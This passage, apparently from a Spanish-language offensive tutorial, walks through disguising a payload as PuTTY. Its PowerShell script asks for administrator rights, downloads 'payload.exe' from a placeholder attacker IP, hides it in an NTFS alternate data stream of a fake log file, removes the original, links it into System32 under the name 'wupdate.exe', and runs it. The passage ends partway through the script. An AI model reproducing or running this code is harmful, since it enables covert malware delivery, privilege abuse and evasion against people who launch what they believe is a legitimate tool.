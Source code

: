 Info:

```
Microsoft (R) Manifest Tool                                                        Copyright (c) Microsoft Corporation.                                               All rights reserved.
```

Hecho esto, ya tendriamos nuestro archivo para que solicite ejecutarlo como administrador.

## Compatibilidad con Windows 10 y 11

Para los pasos mencionados anteriores el codigo que esta en `.bat` habra que pasarlo a `.ps1` (PowerShell) ya que a veces no funciona con el cmd solo.

Crearemos el archivo `PuTTY.ps1`.

> PuTTY.ps1

```shell
# Verificar si el script se está ejecutando como administrador
if (-not [bool](Test-Path "$env:windir\System32\WindowsPowerShell\v1.0\powershell.exe")) {
    Write-Output "Solicitando privilegios de administrador..."
    Start-Process powershell -ArgumentList "-File `"$PSCommandPath`"" -Verb RunAs
    exit
}

try {
    # Crear directorio Temp si no existe
    Write-Output "Creando directorio Temp..."
    if (-not (Test-Path "C:\Temp")) {
        New-Item -Path "C:\Temp" -ItemType Directory -ErrorAction Stop
    }

    # Descargar el archivo payload
    Write-Output "Descargando payload..."
    Invoke-WebRequest -Uri 'http://<IP>/PuTTY.exe' -OutFile 'C:\Temp\payload.exe' -ErrorAction Stop

    # Mover el archivo descargado
    Write-Output "Moviendo payload a Temp..."
    Move-Item -Path 'C:\Temp\payload.exe' -Destination 'C:\Temp\' -ErrorAction Stop

    # Crear el flujo alternativo NTFS
    Write-Output "Creando flujo alternativo NTFS..."
    cmd /c "type C:\Temp\payload.exe > C:\Temp\windowslog.txt:PuTTY.exe"

    # Borrar el archivo original
    Write-Output "Borrando el archivo original..."
    Remove-Item -Path 'C:\Temp\payload.exe' -ErrorAction Stop

    # Crear el enlace simbólico
    Write-Output "Creando enlace simbólico..."
    cmd /c mklink "C:\Windows\System32\wupdate.exe" "C:\Temp\windowslog.txt:PuTTY.exe"

    # Verificar existencia del enlace simbólico
    Write-Output "Verificando existencia del enlace simbólico..."
    if (Test-Path 'C:\Windows\System32\wupdate.exe') {
        Write-Output "Enlace simbólico creado con éxito."
    } else {
        Write-Output "Enlace simbólico no encontrado."
        exit 1
    }

    # Ejecutar el enlace simbólico
    Write-Output "Ejecutando enlace simbólico..."
    Start-Process -FilePath 'C:\Windows\System32\wupdate.exe' -NoNewWindow -Wait

```